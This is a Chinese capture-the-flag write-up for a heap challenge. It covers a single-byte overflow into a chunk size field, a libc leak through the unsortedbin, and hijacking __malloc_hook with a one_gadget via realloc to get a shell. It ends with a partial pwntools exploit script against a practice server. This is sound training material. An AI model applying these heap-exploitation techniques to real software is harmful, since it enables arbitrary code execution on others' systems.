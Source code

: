 先申请四块chunk，这里我们对第0块chunk进行输入，进行单字节溢出，对第一块chunk的size位进行修改。这里我们第一块chunk大小申请为0x58的原因是我们想达成下图所示效果，溢出能覆盖到下一chunk的size位。如果多一字节这块chunk的大小就变为0x71大小了，无法完成覆盖。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01597cc93f71a1364e.png)

在将第一块chunk进行free时，可以将第一块和第二块chunk一起放入fastbins中。因为对chunk进行申请时使用的是`calloc()` 函数，会先将内存中的内容清空再进行分配，所以我们不能直接申请后输出unsortedbin头的地址，我们可以先将chunk1申请出来，然后chunk2还在unsortedbin中，fd和bk指针还指向着unsortedbin头的地址，而且我们还可以对这块chunk进行输出编辑，于是我们可以将unsortedbin头的地址输出，然后借此泄露出libc的基址。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t011dc700d0f0eaa293.png)

这里我们可以使用一个工具来计算main_arean和libc的偏移 [main_arena_offset](https://github.com/bash-c/main_arena_offset)。

有了libc的基址，我们就可以往`__malloc_hook`中写入one_gadget的地址，由于这题one_gadget的条件不满足，所以我们可以利用 realloc 函数调整 rsp。

我们可以选择 `realloc + 2` 的地址写入`__malloc_hook`中，这里我们少执行了一条 `push r15` ，rsp的地址就被抬高了八个字节，可以通过这种方式来尝试满足one_gadget的执行条件。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0128292c8a4cebe444.png)

先把 one_gadget 写到 realloc_hook 中，然后把 realloc_hook 写到 malloc_hook 中，当去执行 malloc 的时候会先去执行 malloc_hook（这里就是 realloc_hook），然后执行 realloc_hook 里的 one_gadget 从而拿到 shell。

exp:

```
from pwn import *
from LibcSearcher import *
# io = process('./easypwn')
io = remote('node3.buuoj.cn',28175)

libc = ELF('./libc-2.23.so')

malloc_hook = libc.symbols['__malloc_hook']
realloc = libc.symbols['__libc_realloc']

def add(size):
  io.sendlineafter('choice: ',str(1))
  io.sendlineafter('size: ',str(size))

def edit(index,size,content):
  io.sendlineafter('choice: ',str(2))
  io.sendlineafter('index: ',str(index))
  io.sendlineafter('size: ',str(size))
  io.sendlineafter('content: ',content)

def delete(index):
  io.sendlineafter('choice: ',str(3))
  io.sendlineafter('index: ',str(index))

def display(index):
  io.sendlineafter('choice: ',str(4))
  io.sendlineafter('index: ',str(index))

add(0x58) #0
add(0x60) #1
add(0x60) #2
add(0x60) #3

edit(0, 0x58 + 0xa, 'a'* 0x58 + '\xe1')
delete(1)

```